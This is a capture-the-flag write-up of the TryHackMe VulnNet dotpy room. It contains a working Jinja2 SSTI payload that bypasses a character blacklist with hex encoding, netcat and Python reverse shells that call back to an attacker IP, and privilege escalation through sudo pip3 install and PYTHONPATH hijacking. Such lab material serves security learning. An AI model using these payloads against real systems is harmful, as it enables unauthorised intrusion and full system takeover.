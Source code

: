 # 70 - VulnNet dotpy (SSTI / SSTI Bypass)

Room Link --> [https://tryhackme.com/room/vulnnetdotpy](https://tryhackme.com/room/vulnnetdotpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
gobuster dir -u http://10.10.82.145:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403

/login
/register
/logout
```
{% endcode %}

We registered a new user and login.

I noticed whenever i enter a non existent page it gets injected into the page.

### SSTI exploitation

[http://10.10.82.145:8080/robots](http://10.10.82.145:8080/robots.txt)

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And some characters are blackliisted.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start testing for SSTI (Server Side Template Injection) by going to [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#templates-injections) since we know the backend is using Python the guess here will be the Template in use here is Jinja2

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This worked:

```bash
{{7*'7'}} would result in 7777777

# go to:
http://10.10.82.145:8080/{{7*'7'}}
```

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

SSTI Resource --> [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

But there are some blacklisted characters we need to find them. We can just cause the program to error out.

Since this is executing python code i just added "print" in the payload.

`http://10.10.82.145:8080/{{print(7*'7')}}`

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We confirmed the Template Language `jinja2.exceptions.UndefinedError` .

Then i clicked the 1st error:

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see the blacklisted characters.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# blacklisted characters.
. _ [ ]
```

### Bypassing Filters

We use this resource that uses [Python Literal Hex Encoding](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) for bypassing those filters.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### payload used

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we enter our hex encoded payload in the 'PAYLOAD' field.
</strong><strong>/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('PAYLOAD')|attr('read')()}}
</strong></code></pre>

We use cyberchef to hex encode our payload:

{% code overflow="wrap" %}
```bash
# payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9002 >/tmp/f

# hex encoded.
\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66
```
{% endcode %}

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Final Payload

{% code overflow="wrap" %}
```bash
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
{% endcode %}

Setup NC listener, then we copy this payload and use Bursuite repeater to send this request.

<figure><img src=".gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And i got shell on NC listener:

<figure><img src=".gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to system-adm user

`sudo -l` and we can execute `/usr/bin/pip3 install *` as system-adm

So we check gtfobin for exploitation:

{% code overflow="wrap" lineNumbers="true" %}
```bash
# make a dir/
mkdir dking && cd dking

# create a .py file that executes a rev shell.
echo 'import os,pty,socket;s=socket.socket();s.connect(("10.18.88.214",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' >  setup.py

# setup nc listener
nc -nvlp 7777

# execute it.
sudo -u system-adm /usr/bin/pip3 install .
```
{% endcode %}

We got shell.

<figure><img src=".gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

`sudo -l` and we can execute `/usr/bin/python3 /opt/backup.py` as root.

```bash
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

```bash
# content of the file.
system-adm@vulnnet-dotpy:/opt$ cat backup.py 
from datetime import datetime
from pathlib import Path
import zipfile
```

We can see the file is calling the `zipfile` library and since we have `SETENV` priv we can set a fake PATHONPATH env variable with a malicious .py file.

```bash
# the malicious library.
echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py

# executing it.
sudo -u root PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

And we got root.

<figure><img src=".gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Done!

